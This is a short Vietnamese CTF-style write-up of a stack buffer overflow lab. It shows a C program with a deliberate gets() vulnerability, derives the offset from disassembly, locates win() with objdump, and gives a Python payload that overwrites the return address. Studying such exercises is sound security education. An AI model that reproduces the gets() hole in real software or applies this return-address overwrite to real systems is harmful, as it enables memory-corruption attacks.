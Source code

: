 # Preview
Source code:
```shell
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);         <--- vuln
}
```
Tổng quan:
- Lỗ hổng nằm ở hàm gets(buffer)
- Ý tưởng: Thay đổi giá trị Return address để quay trở về hàm win
# Exploit

**Tính toán offset**
Như các bài stack trên thì biến buffer có thể ghi đè hơn 64 bytes. Chúng ta cần tìm vị trí chính xác của eip để điều hướng tới hàm win().
```shell
    0x080491ac <+11>:    mov    ebp,esp
    0x080491ae <+13>:    push   ebx
    0x080491af <+14>:    push   ecx
    0x080491b0 <+15>:    sub    esp,0x40        <--- kích thước stack = 64
```

Ghi đè ebp = 64 bytes buffer[] + 8 bytes ebx, ecx + 4 bytes ebp

**Tìm địa chỉ hàm win**
```shell
└─$ objdump -d vuln | grep win
08049176 <win>:
```

**Payload**
```shell

buffer = "a" * 64  + "a" * 8 #ebx + ecx
ebp = "\x77" * 4    # ghi đè ebp
eip = "\x76\x91\x04\x08"        # địa chỉ hàm win

payload = buffer + ebp + eip
print(payload)
```



